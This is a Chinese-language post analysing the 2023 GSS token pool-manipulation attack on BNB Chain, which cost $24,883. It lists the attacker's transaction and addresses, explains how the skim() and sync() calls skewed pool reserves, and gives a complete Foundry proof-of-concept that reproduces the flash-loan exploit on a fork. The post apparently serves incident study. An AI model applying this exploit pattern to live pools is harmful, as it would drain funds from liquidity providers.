 ```yaml
---
layout: post
category: attack_events
---
```

# GSS@pool-Manipulation

- 时间：2023-08-23 16:27:16 (UTC)
- 损失金额：$24,883
- twitter：https://twitter.com/bulu4477/status/1694978296835133746

## 交易 

- 攻击事件hash：[0x4f8cb9efb3cc9930bd38af5f5d34d15ce683111599a80df7ae50b003e746e336](https://bscscan.com/tx/0x4f8cb9efb3cc9930bd38af5f5d34d15ce683111599a80df7ae50b003e746e336)
- 黑客EOA地址：[0x84f37f6cc75ccde5fe9ba99093824a11cfdc329d](https://bscscan.com/address/0x84f37f6cc75ccde5fe9ba99093824a11cfdc329d)
- 黑客用来攻击的合约：[0x69ed5b59d977695650ec4b29e61c0faa8cc0ed5c](https://bscscan.com/address/0x69ed5b59d977695650ec4b29e61c0faa8cc0ed5c)

## 资金流向

![image-20231119151943358](16.GSS@pool-Manipulation/image-20231119151943358.png)

## 攻击过程

![image-20231119153501832](16.GSS@pool-Manipulation/image-20231119153501832.png)

## 攻击详细分析

从攻击过程可以看出，是操纵GSS的新旧两个池子，通过`skim()`和`sync()`来影响`_reserve`的值从而获利。

旧池子拥有较多的`_reserve`，将新池子的GSS代币进行skim和sync能够操纵影响到旧池子，旧池子的`_reserve`被操纵后，skim将多的GSS转给黑客

## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract ContractTest is Test {

    address constant private usdt = 0x55d398326f99059fF775485246999027B3197955;
    address constant private gss = 0x37e42B961AE37883BAc2fC29207A5F88eFa5db66;
    address constant private gss_usdt_pool = 0x1ad2cB3C2606E6D5e45c339d10f81600bdbf75C0;
    address constant private gss_gssdao_pool = 0xB4F4cD1cc2DfF1A14c4Aaa9E9434A92082855C64;
    address constant private pancakeRouterV2 = 0x10ED43C718714eb63d5aA57B78B54704E256024E;
    address constant private dodo_pool = 0x9ad32e3054268B849b84a8dBcC7c8f7c52E4e69A;

    function setUp() public {
        vm.createSelectFork("bsc",31108559 - 1);
        vm.label(usdt, "USDT");
        vm.label(gss, "GSS");
        vm.label(gss_usdt_pool, "GSS_USDT_POOL");
        vm.label(gss_gssdao_pool, "GSS_GSSDAO_POOL");
        vm.label(pancakeRouterV2, "PANCAKE_ROUTER_V2");
        vm.label(dodo_pool, "DODOPool");
    }

    function testExploit() public {
        IDPPOracle(dodo_pool).flashLoan(0, 30000 ether, address(this), new bytes(1));
    }

    function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external{
        swap(usdt, gss, 30000 ether);

        IERC20(gss).transfer(gss_usdt_pool, 707162351662098288993328);
        IPancakePair(gss_usdt_pool).skim(gss_gssdao_pool);
        IPancakePair(gss_usdt_pool).sync();
        IPancakePair(gss_gssdao_pool).skim(address(this));

        swap(gss, usdt, IERC20(gss).balanceOf(address(this)));

        // pay back
        IERC20(usdt).transfer(msg.sender, 30000 ether);
        emit log_named_decimal_uint("Attacker USDT balance after exploit", IERC20(usdt).balanceOf(address(this)), 18);
    }

    function swap(address tokenIn, address tokenOut, uint256 amountIn) internal {
        IERC20(tokenIn).approve(pancakeRouterV2, type(uint256).max);
        address[] memory path = new address[](2);
        path[0] = tokenIn;
        path[1] = tokenOut;
        IUniswapV2Router(payable(pancakeRouterV2)).swapExactTokensForTokensSupportingFeeOnTransferTokens(amountIn, 0, path, address(this), block.timestamp + 1000);
    }
}
```

## 建议





